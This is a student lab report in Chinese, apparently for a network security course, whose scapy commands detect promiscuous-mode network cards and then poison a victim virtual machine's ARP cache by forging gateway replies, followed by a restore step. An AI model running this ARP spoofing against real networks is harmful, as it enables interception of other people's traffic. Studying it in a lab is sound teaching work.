









#   第四章 网络监听


## 网络拓扑



如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:0e:34:8d/eth0
  - 172.16.111.111
- 受害者主机
  - 08:00:27:17:0b:c2/eth0
  - 172.16.111.123
- 网关
  - 08:00:27:4e:a1:a2/enp0s9
  - 172.16.111.1


## 实验准备


### 安装scapy

在攻击者主机上提前安装好[scapy](https://scapy.net/)。

```c
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```




## 实验一：检测局域网中的异常终端

```c
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```


```c
# 在攻击者主机上开启 scapy,需要sudo 
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.123")
```


```c
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
 
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```




```c
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.123")
```




```c
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```


维基百科解释了[混杂模式](https://zh.wikipedia.org/wiki/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F)，即：

> **混杂模式**（英语：promiscuous mode）是[电脑网络](https://zh.wikipedia.org/wiki/电脑网络)中的术语。是指一台机器的[网卡](https://zh.wikipedia.org/wiki/网卡)能够接收所有经过它的数据流，而不论其目的地址是否是它。
>
> 一般计算机网卡都工作在非混杂模式下，此时网卡只接受来自网络端口的目的地址指向自己的数据。当网卡工作在混杂模式下时，网卡将来自接口的所有数据都捕获并交给相应的驱动程序。

简单来说，混杂模式下，受害者主机接收所有经过网卡(eth0)的数据包，包括不是发给它本机的包。


## 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成

```c
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```




```c
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```




```c
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.123
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.123", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```




此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```c
ip neigh
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```c
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:4e:a1:a2", pdst="172.16.111.123", hwdst="08:00:27:17:0b:c2")
sendp(restorepkt1, count=100, inter=0.2)
```




此时在受害者主机上准备“刷新”网关 ARP 记录。

```c
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```




## 参考文献

- [在线课本](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)
- [2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/imgs/1promsiping.png)

